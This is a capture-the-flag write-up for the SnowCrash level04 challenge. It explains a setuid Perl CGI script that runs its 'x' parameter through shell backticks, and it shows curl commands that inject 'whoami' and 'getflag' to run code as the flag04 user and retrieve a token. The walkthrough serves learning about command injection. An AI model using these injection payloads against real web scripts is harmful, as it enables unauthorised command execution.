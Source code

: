 ## level04

```bash
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

The permission `s` is the "setuid" bit, which tells the OS to execute that program with the userid of its owner. This is typically used with files owned by root to allow normal users to execute them as root with no external tools (such as `sudo`). So [level04.pl](http://level04.pl) would be executed as `flag04`.

The file is a Perl script:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\\n\\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));

```

1. **Importing CGI Module**:
    
    ```perl
    use CGI qw{param};
    ```
    
    This line imports the `CGI` module and specifically the `param` function from it. The `CGI` module is used for handling Common Gateway Interface (CGI) requests and responses, which are typically used in web applications.
    
2. **HTTP Header**:
    
    ```perl
    print "Content-type: text/html\\n\\n";
    ```
    
    This line prints the HTTP header indicating that the content type of the response is HTML.
    
3. **Subroutine Definition**:
    
    ```perl
    sub x {
      $y = $_[0];
      print `echo $y 2>&1`;
    }
    ```
    
    This defines a subroutine `x` that takes one argument (`$_[0]`), assigns it to the variable `$y`, and then executes the shell command `echo $y 2>&1`. The backticks ``` are used to execute the command in the shell and capture its output, which is then printed.
    
4. **Calling the Subroutine**:
    
    ```perl
    x(param("x"));
    ```
    
    This calls the subroutine `x` with the value of the CGI parameter `x`. The `param` function retrieves the value of the parameter `x` from the CGI request.
    
    A quick `curl` to [`localhost:4747`](http://localhost:4747) shows me that I can execute code since the parameter is not sanitized!
    
    ```bash
    level04@SnowCrash:~$ curl http://localhost:4747/?x=hello
    hello
    level04@SnowCrash:~$ curl http://localhost:4747/?x=hello;whoami
    hello
    level04
    level04@SnowCrash:~$ curl http://localhost:4747/?x=hello;ls
    hello
    level04.pl
    ```
    
    The problem is that I’m still `level04`... It’s a security feature introduced in Perl (see [here](https://mattmccutchen.net/suidperl.html)).
    
    I need a way to execute the script and pass it the parameter I want.
    
    A few considerations:
    
    - The only instructions called by the script itself is `echo`: if I chain more I can still execute them (as in the second and third examples above) but not as `flag04`
    - I need the argument of echo to be executed and not printed as it is: for that I need the backtick (```) syntax
    
    ```bash
    level04@SnowCrash:~$ curl localhost:4747/?x=whoami
    whoami
    level04@SnowCrash:~$ curl localhost:4747/?x=`whoami`
    level04
    ```
    
    - now `whoami` is called but *before* being passed! I need to pass **literally** ``whoami``so `'`whoami`'`. This way the instruction is not called by the current user `level04` but it’s instead passed as it is.
    
    ```bash
    level04@SnowCrash:~$ curl localhost:4747/?x='`whoami`'
    flag04
    level04@SnowCrash:~$ curl localhost:4747/?x='`getflag`'
    Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
    ```

	### Key Learnings
	- Privilege escalation by exploiting a script running as a different user
	- Mastering the backtick and single quotes to pass a command to a script